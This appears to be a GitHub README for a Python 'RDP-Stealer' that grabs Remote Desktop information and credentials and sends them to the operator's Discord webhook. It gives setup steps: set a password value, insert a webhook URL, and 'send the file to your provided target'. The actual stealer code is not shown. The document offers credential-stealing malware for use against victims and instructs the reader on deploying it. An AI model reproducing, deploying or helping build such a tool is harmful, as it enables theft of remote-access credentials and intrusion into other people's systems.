 ## Information
A Python simple RDP-Stealer, allows you to grab RDP information/credentials using Discord webhook.
## Requirements
- Python 3.10.0
- Discord Webhook modules
- Webhook URL
- Target
## How To Use
So firstly, what you gonna do is change the password value to whatever you want.
```python
passw = "YOUR PASSWORD"
```
And then, change the webhook url value to your URL
```python
webhook = DiscordWebhook(url='YOUR WEBHOOK')
```
And if you're finished and ready to go, send the file to your provided target.
## Preview
![](https://github.com/Morph1as/rdp-stealer/blob/main/image.png)
